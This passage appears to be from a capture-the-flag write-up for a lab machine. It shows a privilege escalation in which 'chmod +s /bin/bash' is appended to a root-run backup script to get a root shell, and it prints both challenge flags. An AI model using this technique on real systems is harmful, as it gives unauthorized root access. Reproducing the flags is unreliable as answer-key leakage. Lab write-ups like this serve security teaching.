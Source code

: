 ![Pasted image 20250320162821.png](../../IMAGES/Pasted%20image%2020250320162821.png)

We can check root is running some scripts, let's try to modify the `script.sh` file:

![Pasted image 20250320163042.png](../../IMAGES/Pasted%20image%2020250320163042.png)

We cannot write on this file directly but we can on the `main_backup.sh` one, let's send this to that file:

```
echo "chmod +s /bin/bash" >> /usr/local/bin/main_backup.sh
```

```
gyles@TEAM:~$ echo "chmod +s /bin/bash" >> /usr/local/bin/main_backup.sh
gyles@TEAM:~$ cat /usr/local/bin/main_backup.sh
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
chmod +s /bin/bash
```

Now, after a minute, we can enter a privileged bash session as root:

![Pasted image 20250320164122.png](../../IMAGES/Pasted%20image%2020250320164122.png)

Let's read both flags:

```
bash-4.4# cat /home/dale/user.txt
THM{6Y0TXHz7c2d}
```

```
bash-4.4# cat /root/root.txt
THM{fhqbznavfonq}
```
